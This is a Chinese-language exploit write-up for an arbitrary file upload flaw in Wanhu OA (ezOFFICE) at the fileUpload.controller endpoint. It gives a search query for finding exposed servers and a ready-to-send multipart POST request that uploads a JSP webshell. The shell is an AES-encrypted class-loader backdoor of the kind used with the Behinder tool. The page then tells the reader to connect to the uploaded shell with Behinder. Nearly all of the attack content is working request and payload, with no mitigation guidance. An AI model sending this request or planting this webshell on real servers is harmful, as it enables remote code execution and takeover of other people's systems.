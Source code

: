 # 万户OA fileUpload.controller 任意文件上传漏洞

## 漏洞描述

万户OA fileUpload.controller 存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件

## 漏洞影响

```
万户OA
```

## 网络测绘

```
app="万户网络-ezOFFICE"
```

## 漏洞复现

产品页面

![img](./images/1628348571931-52bde954-fcd0-485f-bc17-1494f5eb53f4.png)

发送请求包上传文件

```php
POST /defaultroot/upload/fileUpload.controller HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:50.0) Gecko/20100101 Firefox/50.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: Keep-Alive
Content-Type: multipart/form-data; boundary=KPmtcldVGtT3s8kux_aHDDZ4-A7wRsken5v0
Content-Length: 773

--KPmtcldVGtT3s8kux_aHDDZ4-A7wRsken5v0
Content-Disposition: form-data; name="file"; filename="cmd.jsp"
Content-Type: application/octet-stream
Content-Transfer-Encoding: binary

<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";/*......tas9er*/session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>
--KPmtcldVGtT3s8kux_aHDDZ4-A7wRsken5v0--
```

![img](./images/1628348700247-9ac78c6c-b56f-4137-a0b3-ba3b13733c19.png)

使用冰蝎连接木马 **/defaultroot/upload/html/xxxxxxxxxx.jsp**

![img](./images/1628349045223-89889c4f-c7e6-4a31-af77-5c58fa8749b4.png)